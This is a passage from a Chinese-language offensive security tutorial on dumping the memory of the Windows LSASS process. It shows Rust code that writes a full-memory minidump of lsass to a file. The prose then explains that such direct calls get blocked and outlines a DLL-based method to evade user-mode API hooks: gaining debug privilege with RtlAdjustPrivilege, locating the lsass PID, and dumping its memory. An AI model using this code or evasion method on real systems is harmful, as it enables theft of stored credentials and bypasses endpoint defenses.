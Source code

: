 ```rust
            process_handle,
            lsass_pid,
            lsasshandle,
            MiniDumpWithFullMemory,
            ptr::null_mut(),
            ptr::null_mut(),
            ptr::null_mut(),
        );
        println!("{:?}",result);
        if result == 1
        {
            println!("Dump successful with file  {:?}",LsassFile.to_string());
        } else {
            println!("Dump error {:?}", GetLastError());
        }
        let status = CloseHandle(lsasshandle);
        if status != 1 {
            error!("Fail to Close file handle");
        }
    }
}

fn main() {
    let matches = App::new("SysWhispers3 - SysWhispers on steroids")
    .arg(Arg::with_name("DumpFileName")
        .short("f")
        .long("DumpFileName")
        .takes_value(true)
        .help("DumpFileName Path like C:\\temp.dmp")).get_matches();
    let mut out_file = "";
    if   matches.is_present("DumpFileName") {
        out_file = matches.value_of("DumpFileName").expect("get DumpFileName args error");
    }else {
        out_file = "lsass.dmp";
    }
    getProcess(out_file);

}

```

当然我们直接这样写的代码肯定是会被无情的拦截的，这类API大家已经再熟悉不过了，肯定是被拦截的很严重的。

### 编写Dump Lsass的DLL(yes)

其实就是为了解决直接使用Comsvsc.dll中的`APIMiniDump`函数容易被用户模式下的API hook拦截的问题。dll编写的思路一般是

- 获取Debug权限
- 找到lsass的PID
- 使用MiniDump或MiniDumpWriteDump进行内存dump

首先需要解决权限提升的问题，这里常用的是RtlAdjustPrivilege函数来进行权限提升，这个函数封装在NtDll.dll中。这个函数的定义和解释:

